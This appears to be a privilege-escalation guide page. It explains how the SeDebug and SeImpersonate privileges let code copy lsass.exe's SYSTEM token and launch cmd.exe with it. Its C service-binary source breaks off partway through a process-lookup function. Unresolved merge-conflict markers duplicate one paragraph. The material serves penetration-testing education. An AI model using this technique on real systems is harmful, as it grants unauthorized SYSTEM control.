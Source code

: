 # SeDebug + SeImpersonate copy token

<<<<<<< HEAD
The following code **exploits the privileges SeDebug and SeImpersonate** to copy the token from a **process running as SYSTEM** and with **all the token privileges**.  
In this case, this code can be compiled and used as a **Windows service binary** to check that it's working.  
However, the main part of the **code where the elevation occurs** is inside the **`Exploit`** **function**.  
Inside of that function you can see that the **process** _**lsass.exe**_ **is searched**, then it's **token is copied**, and finally that **token is used to spawn a new** _**cmd.exe**_ **with all the privileges of the copied token**.
=======
The following code **exploits the privileges SeDebug and SeImpersonate** to copy the token from a **process running as SYSTEM** and with **all the token privileges**. \
In this case, this code can be compiled and used as a **Windows service binary** to check that it's working.\
However, the main part of the **code where the elevation occurs** is inside the **`Exploit`** **function**.\
Inside of that function you can see that the **process **_**lsass.exe**_** is searched**, then it's **token is copied**, and finally that **token is used to spawn a new **_**cmd.exe**_** with all the privileges of the copied token**.
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

**Other processes** running as SYSTEM with all or most of the token privileges are: _**services.exe**_**, **_**svhost.exe**_ (on of the firsts ones), _**wininit.exe**_**, **_**csrss.exe**_... (_remember that you won't be able to copy a token from a Protected process_). Moreover, you can use the tool [Process Hacker](https://processhacker.sourceforge.io/downloads.php) running as administrator to see the tokens of a process.

```c
#include <windows.h>
#include <tlhelp32.h>
#include <tchar.h>
#pragma comment (lib, "advapi32")

TCHAR* serviceName = TEXT("TokenDanceSrv");
SERVICE_STATUS serviceStatus;
SERVICE_STATUS_HANDLE serviceStatusHandle = 0;
HANDLE stopServiceEvent = 0;

//This function will find the pid of a process by name
int FindTarget(const char *procname) {

    HANDLE hProcSnap;
    PROCESSENTRY32 pe32;
    int pid = 0;

    hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hProcSnap) return 0;

    pe32.dwSize = sizeof(PROCESSENTRY32); 

    if (!Process32First(hProcSnap, &pe32)) {
            CloseHandle(hProcSnap);
            return 0;
    }

    while (Process32Next(hProcSnap, &pe32)) {
            if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                    pid = pe32.th32ProcessID;
                    break;
            }
```